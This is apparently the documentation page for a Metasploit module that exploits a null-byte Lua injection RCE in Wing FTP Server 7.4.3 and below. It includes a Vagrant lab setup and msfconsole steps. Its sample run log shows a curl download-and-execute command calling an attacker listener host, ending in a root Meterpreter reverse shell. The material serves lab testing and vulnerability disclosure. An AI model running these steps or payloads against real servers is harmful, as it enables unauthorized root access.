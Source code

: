 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated Remote Code Execution** vulnerability
in **Wing FTP Server** (≤ 7.4.3 on Linux 64-bit), via its web administration interface.
The flaw lies in the login handler (`loginok.html`): by injecting a null byte (`%00`) into
the `username` parameter, attacker-supplied Lua code is written into the session file and
then executed by `loadfile()`, yielding arbitrary code execution as **root**.

To set up a vulnerable lab, use the following **Vagrantfile**, which provisions a Debian
"bookworm" VM, installs Wing FTP Server 7.4.3, and exposes its HTTP/S and FTP ports on the host:

```ruby
Vagrant.configure("2") do |config|
  config.vm.box = "debian/bookworm64"

  if Vagrant.has_plugin?("vagrant-vbguest")
    config.vbguest.auto_update = false
  end

  {
    21    => 2121,   # FTP
    990   => 2990,   # FTPS
    5466  => 5466,   # Admin port WingFTP
    50000 => 50000,  # Passive FTP range start
    50050 => 50050,  # Passive FTP range end
    80    => 8081    # HTTP WingFTP Web GUI
  }.each do |guest, host|
    config.vm.network "forwarded_port",
                      guest:        guest,
                      host:         host,
                      host_ip:      "0.0.0.0",
                      auto_correct: true
  end

  config.vm.provision "shell", inline: <<-SHELL
#!/usr/bin/env bash
set -e

ADMIN_USER="admin"
ADMIN_PASS="adminadmin"
ADMIN_PORT="5466"
WFTP_URL="https://web.archive.org/web/20250108084555/https://www.wftpserver.com/download/wftpserver-linux-64bit.tar.gz"

apt-get update
DEBIAN_FRONTEND=noninteractive apt-get install -y --no-install-recommends \
  wget ca-certificates libssl3 libpam0g libacl1 libcap2 \
  net-tools procps expect curl \
  linux-headers-amd64 build-essential dkms

mkdir -p /opt/wingftp
cd /opt/wingftp
wget -qO wftp.tar.gz "$WFTP_URL"
tar xzf wftp.tar.gz --strip-components=1
rm wftp.tar.gz
chmod +x setup.sh

expect -c "
  spawn /opt/wingftp/setup.sh
  expect \\\"Enter your administrator name:\\\"     { send \\\"${ADMIN_USER}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter your administrator password:\\\" { send \\\"${ADMIN_PASS}\\r\\\" }
  expect \\\"Enter the listener port\\\"           { send \\\"${ADMIN_PORT}\\r\\\" }
  expect \\\"Do you want to start Wing FTP Server now?\\\" { send \\\"y\\r\\\" }
  expect eof
"

systemctl daemon-reload
systemctl enable wftpserver.service
systemctl start wftpserver.service
SHELL

  config.vm.provider "virtualbox" do |vb|
    vb.memory = 512
    vb.cpus   = 1
  end
end
```

* Save this as Vagrantfile in an empty directory.
* Run vagrant up.
* After provisioning, access the Wing FTP Server web UI at http://localhost:5466/ with credentials admin/adminadmin.
* On first login, a popup will appear; click OK.
* Create a new domain in the admin interface (this will enable the web client panel, port 8081).
* Then create a new user; for simplicity, use anonymous.

---

## Verification Steps

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wingftp_null_byte_rce
```
3. Set target parameters:
```
set RHOSTS 127.0.0.1
set RPORT 8081
set TARGETURI /
```
4. Configure payload:
```
set payload cmd/linux/http/x64/meterpreter/reverse_tcp
set LHOST <your IP>
set LPORT <your port>
```
5. Run the exploit:
```
run
```
6. On success, a Meterpreter session will open, confirming remote code execution.

---

## Options

### USERNAME

A valid username (default: anonymous)

### PASSWORD

A valid password (default: '')


---

## Scenarios

### Successful Exploitation against Wing FTP Server

**Setup**:

* Wing FTP Server running in the Vagrant VM above.
* Attacker on host machine with Metasploit.

**Steps**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf6 exploit(multi/http/wingftp_null_byte_rce) > run http://lab:8081
[*] Command to run on remote host: curl -so ./FaWVivODJhB http://192.168.1.36:9999/LoPlnjEpeOexZNVppn6cAA;chmod +x ./FaWVivODJhB;./FaWVivODJhB&
[*] Fetch handler listening on 192.168.1.36:9999
[*] HTTP server started
[*] Adding resource /LoPlnjEpeOexZNVppn6cAA
[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. UID cookie received: UID=2a5efb5a398e4ff19369a523c3cfffb03683e20446a6b40715757e2b05f10521
[+] Received UID: UID=146015b242094d8f4eff04941d94e67d3683e20446a6b40715757e2b05f10521
[*] Client 192.168.1.36 requested /LoPlnjEpeOexZNVppn6cAA
[*] Sending payload to 192.168.1.36 (curl/7.88.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.1.36
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.36:46260) at 2025-07-01 18:56:31 +0200

meterpreter > sysinfo 
Computer     : 10.0.2.15
OS           : Debian 12.9 (Linux 6.1.0-37-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
```

